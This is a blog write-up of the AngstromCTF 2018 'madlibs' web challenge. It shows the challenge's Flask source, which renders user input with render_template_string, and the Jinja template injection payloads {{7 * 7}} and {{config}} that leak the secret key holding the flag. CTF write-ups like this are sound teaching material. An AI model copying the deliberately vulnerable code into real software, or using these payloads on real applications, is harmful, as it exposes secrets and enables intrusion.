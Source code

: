 ```yaml
---
layout:     post
title:      "AngstromCTF - madlibs"
date:       2018-03-23 2:00:00
author:     "W3ndige"
permalink: /:title/
category: "AngstromCTF 2018"
---
```


Welcome to first write up from the Angstrom CTF, in which we're going to focus on web security.

- Category: Web
- Points: 120

{% highlight text %}
When Ian was a kid, he loved to play goofy Madlibs all day long. Now, he's decided to write his own website to generate them!
{% endhighlight %}

### Solution

We're presented with the website generating Madlibs stories, getting them from the user input. If you don't know what Madlibs is take a look [here](https://en.wikipedia.org/wiki/Mad_Libs), but it won't be needed in order to solve the challenge.

{% highlight html %}
<!doctype html>
<title>Angstrom MadLibs</title>

<body>

<h4>The Tale of a Person</h4>

<p>
A long, long time ago, there lived a in person. This person had a prized possesion, it was a my.
Every day before using their my, the person liked to closet.
</p>

<h4>THE END</h4>

This MadLib with title The Tale of a Person was created by hello at 2018-03-21 19:48:06
<br><br>
<a href="/">Click here to return to the home page.</a>
<br><br>
MadLib generated using program found <a href="../get-source">here</a>
</body>
</html>
{% endhighlight %}

As you can see, together with the interface we get a source code of this application, which is written in [Flask](http://flask.pocoo.org/).

{% highlight python %}
from flask import Flask, render_template, render_template_string, send_from_directory, request
from jinja2 import Environment, FileSystemLoader
from time import gmtime, strftime
template_dir = './templates'
env = Environment(loader=FileSystemLoader(template_dir))


madlib_names = ["The Tale of a Person","A Random Story"]
story_fields = {
    "The Tale of a Person":['Author Name','Adjective','Noun','Verb'],
    "A Random Story":['Author Name','Adjective','Noun','Any first name','Verb']
    }

app = Flask(__name__)
app.secret_key = open("flag.txt").read()

@app.route("/",methods=["GET"])
def home():
    return render_template("home.html",libs=madlib_names)

@app.route("/form/<templatename>",methods=["GET"])
def madlib(templatename):
    global madlib_names
    if templatename in madlib_names:  
        return render_template("home.html",libs=madlib_names,title=templatename,fields=story_fields[templatename])
    else:
        error_message = 'The MadLib with title "' + templatename + '" could not be found.'
        return render_template("home.html",libs=madlib_names,message=error_message)

@app.route("/result/<templatename>",methods=["POST"])
def output(templatename):

    if templatename not in madlib_names:    
        return "Template not found."

    inpValues = []
    for i in range(len(story_fields[templatename])):
        if not request.form[str(i+1)]:
            return "All form fields must be filled"
        else:
            inpValues.append(request.form[str(i+1)][:24])

    authorName = inpValues.pop(0)[:12]
    try:
        comment = render_template_string('''This MadLib with title %s was created by %s at %s''' % (templatename, authorName, strftime("%Y-%m-%d %H:%M:%S", gmtime())))
    except:
        comment = "Error generating comment."
    return render_template("_".join(templatename.lower().split())+".html",libtitle=templatename,footer=comment, libentries=inpValues)


@app.route("/get-source", methods=["GET","POST"])
def source():
    return send_from_directory('./','app.py')

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=7777, threaded=True)
{% endhighlight %}

We can see the whole logic of written application, but is there something we can exploit? Let's focus on the user input, and specifically `authorName` variable that is used to store our name and print it inthe comment.

Firstly, we can see that it's being limited to only 12 characters, which we can easiliy check.

{% highlight python %}
authorName = inpValues.pop(0)[:12]
{% endhighlight %}

With author name `123456789abcd`, which is 13 characters, only first 12 `123456789abc` will be printed. That's the first obstacle we have to keep in mind.

After that we're getting to creating the comment with this line of code.

{% highlight python %}
comment = render_template_string('''This MadLib with title %s was created by %s at %s''' % (templatename, authorName, strftime("%Y-%m-%d %H:%M:%S", gmtime())))
{% endhighlight %}

Firstly, we have to think about `render_template_string()` function. Quick google will tell us, that it's used in order to work with templates, that will look just like in this [example](http://flask.pocoo.org/docs/0.12/tutorial/templates/). Further analysis of this code doesn't provide us with any new, or more useful information so let's stick to what we have already.

Part of the job of every person is IT is to learn how to google efficiently in order to look for information. That's what I did this time, googled `flask template vulnerability` and look what we have in [this](https://nvisium.com/resources/blog/2015/12/07/injecting-flask.html) link, which showed as the first one in this search engine.

In addition we get very interesting [whitepaper](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf), I advice everyone to read it. But back to the challenge. In quick words, we're able to inject Python code into the template, which will be then executed. Simple test works by putting the input {% raw %}`{{7 * 7}}`{% endraw %} in our author name input.

{% highlight text %}
 This MadLib with title The Tale of a Person was created by 49 at 2018-03-21 20:08:58
{% endhighlight %}

Great, it works! But how do we get the secret that is stored at `app.secret_key = open("flag.txt").read()` variable. As it's name is to long in order to work correctly, we'll have to find a workaround. Luckily, there's a [config]() that stores the configuration of our application. Let's take a look at it  with {% raw %}`{{config}}`{% endraw %}. And ladies and gentlemen, here we have the config.

{% highlight text %}
This MadLib with title The Tale of a Person was created by &lt;Config {&#39;DEBUG&#39;: False, &#39;TESTING&#39;: False, &#39;PROPAGATE_EXCEPTIONS&#39;: None, &#39;PRESERVE_CONTEXT_ON_EXCEPTION&#39;: None, &#39;SECRET_KEY&#39;: &#39;actf{wow_ur_a_jinja_ninja}&#39;, &#39;PERMANENT_SESSION_LIFETIME&#39;: datetime.timedelta(31), &#39;USE_X_SENDFILE&#39;: False, &#39;LOGGER_NAME&#39;: &#39;__main__&#39;, &#39;LOGGER_HANDLER_POLICY&#39;: &#39;always&#39;, &#39;SERVER_NAME&#39;: None, &#39;APPLICATION_ROOT&#39;: None, &#39;SESSION_COOKIE_NAME&#39;: &#39;session&#39;, &#39;SESSION_COOKIE_DOMAIN&#39;: None, &#39;SESSION_COOKIE_PATH&#39;: None, &#39;SESSION_COOKIE_HTTPONLY&#39;: True, &#39;SESSION_COOKIE_SECURE&#39;: False, &#39;SESSION_REFRESH_EACH_REQUEST&#39;: True, &#39;MAX_CONTENT_LENGTH&#39;: None, &#39;SEND_FILE_MAX_AGE_DEFAULT&#39;: datetime.timedelta(0, 43200), &#39;TRAP_BAD_REQUEST_ERRORS&#39;: False, &#39;TRAP_HTTP_EXCEPTIONS&#39;: False, &#39;EXPLAIN_TEMPLATE_LOADING&#39;: False, &#39;PREFERRED_URL_SCHEME&#39;: &#39;http&#39;, &#39;JSON_AS_ASCII&#39;: True, &#39;JSON_SORT_KEYS&#39;: True, &#39;JSONIFY_PRETTYPRINT_REGULAR&#39;: True, &#39;JSONIFY_MIMETYPE&#39;: &#39;application/json&#39;, &#39;TEMPLATES_AUTO_RELOAD&#39;: None}&gt; at 2018-03-21 20:25:01
{% endhighlight %}

Spot the flag and here you go.
